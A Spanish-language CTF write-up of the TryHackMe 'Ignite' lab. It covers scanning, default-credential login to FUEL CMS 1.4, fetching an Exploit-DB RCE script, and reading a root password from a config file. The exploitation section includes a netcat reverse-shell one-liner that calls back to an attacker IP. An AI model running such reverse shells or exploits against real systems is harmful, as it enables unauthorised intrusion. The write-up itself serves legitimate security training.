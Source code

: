 ```yaml
---
title: "Ignite - Writeup"
date: 2025-03-12
author: "Eric González"
tags:
  - TryHackMe
  - CTF
image: "https://github.com/user-attachments/assets/6fc50d8c-a641-43f2-a520-4408870d642a"

---
```


![{DC58F93F-3185-4714-8695-BD88B891E8DF}](https://github.com/user-attachments/assets/0fa46990-3c83-4472-bf45-95461e35774a)


## Introducción

**Ignite** es una máquina de nivel fácil en TryHackMe (THM) diseñada para practicar explotación del gestor de contenidos (FUEL CMS). En este writeup, analizaremos los pasos clave para comprometer la máquina, desde el reconocimiento hasta la escalación de privilegios.

## Herramientas 

* [Kali](https://www.kali.org/)
* [Nmap](https://nmap.org/)
* [dirb](https://dirb.sourceforge.net/about.html)
* [netcat](https://netcat.sourceforge.net/)

## Detalles

* Attacker IP: 10.9.2.48
* Target VM Type: TryHackMe
* Target IP: 10.10.74.195
* Target Network: TryHackMe VPN

## Enumeración

Comenzamos con un escaneo de puertos para identificar servicios en ejecución:

```bash
nmap -sS --min-rate 5000 -n -Pn 10.10.74.195
```

![{F7095E70-37E1-4E45-8520-7D815AFEEE71}](https://github.com/user-attachments/assets/cce5e0f0-2a74-4c1e-be1a-2cbdc17b7922)


```bash
nmap -sCV --min-rate 5000 -p80 -n -Pn 10.10.74.195
```

![{D4E29788-6ED1-4C2F-962D-3BA81C391089}](https://github.com/user-attachments/assets/cdfbc61b-f17b-4cb8-b6dd-ecfeb88120bc)


Vemos que hay un servicio web, le tiramos un whatweb para obtener información y vemos el título de **FUEL CMS**, vamos a ver de que se trata.

```bash
whatweb http://10.10.74.195/
```
![{912AA099-15C6-41B6-BD4B-206A6B3872ED}](https://github.com/user-attachments/assets/1661bd15-2170-4cbb-aafd-5fda784fc253)

Accedemos dentro del servicio web a ver de que se trata, y vemos que efectivamente se trata del gestor de contenidos Fuel, de version 1.4.

![{C2E78ABF-884A-495C-BF8C-616E271669C5}](https://github.com/user-attachments/assets/f806be25-84a2-4158-83d1-4476afdb5008)

Si bajamos un poco nos da información sobre el panel de administración y la contraseña por defecto.

![{9E9804CC-0EAA-452B-B7FE-919E8B39151D}](https://github.com/user-attachments/assets/036a541c-8fe5-48a4-82f5-ebdd7443960b)

Vamos a tratar de acceder.

![{84F2E50F-00E6-4F67-AACE-FB0FBC580144}](https://github.com/user-attachments/assets/5810bd3a-1c2d-45f7-afc9-554dc29c5d5e)

Vemos que estamos dentro del panel de administración... Muy sencillo no?.

![{FFB207F0-9619-4CB6-B27C-B162F87B7115}](https://github.com/user-attachments/assets/9db4ee9c-3a38-42fb-8b20-c93a3ee15b87)


## Explotación

El objetivo aquí es tener acceso por consola y escalar privilegios dentro del sevidor, así que como anteriormente vimos la versión del CMS vamos a buscar un exploit que nos pueda servir... 
Y efectivamente tenemos uno que nos puede ir bien!.

![{1CDF0191-55F7-498C-B987-AA85B15E334B}](https://github.com/user-attachments/assets/054b54cd-f414-4c6c-8327-44b13d3881ff)

Lo descargamos y modificamos la IP para apuntar al servidor, también eliminamos la linea de "proxy" ya que no será necesario.

```bash
wget https://www.exploit-db.com/raw/47138
```

![{6614E678-5BBF-4D1F-8E49-BD1F2B630CB9}](https://github.com/user-attachments/assets/8c7f31fc-0d09-4c6b-b2d0-ff40a85af682)

![{5A7BBC30-6746-4B63-BF39-56BF26895008}](https://github.com/user-attachments/assets/7ec532d1-c26c-4056-863d-518f616b1b32)


Ejecutamos el script, y a través del parámetro **cmd:** podemos ejecutar comandos y acontecer un (RCE), aunque no funciona del todo bien.

![{50447B06-53A0-4DD9-BE49-189EACDC88E2}](https://github.com/user-attachments/assets/b976c2fd-f156-4211-93fe-e4adf2f1a388)

Vamos a generar una reverse shell 

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.48 443 > /tmp/f
```

![{22137FFE-4681-4069-956B-240A3AD5F01F}](https://github.com/user-attachments/assets/c988e414-b6c7-42c1-8408-4c3d5f8ac6eb)


## Post Explotación

Una vez dentro del sistema vamos a escalar provilegios, anteriormente en la web vimos rutas que nos llamaron la atención.
Ya que nos habla de la instal·lación base de datos.

![{DDA7C2F5-46FF-4883-A5D7-95F471E7D786}](https://github.com/user-attachments/assets/895cb934-3149-4cf6-9960-b8217ecb2288)

Vamos a investigar el archivo **database.php** y que sorpresa... 
Vemos la contraseá de root expuesta.

```bash
cat fuel/application/config/database.php
```

![{4AD81C04-14FA-46A9-B0D3-FFF762AF4FE0}](https://github.com/user-attachments/assets/662805e7-8929-4543-b6b6-81d0f60223a0)

Nos convertimos en root usando la contraseña que hemos obtenido y ya podriamos leer las flags.

![{45A5B673-9702-4BBC-B17D-6F1D81DE15CF}](https://github.com/user-attachments/assets/e79a592f-1980-477c-a5ca-80596c0af11e)
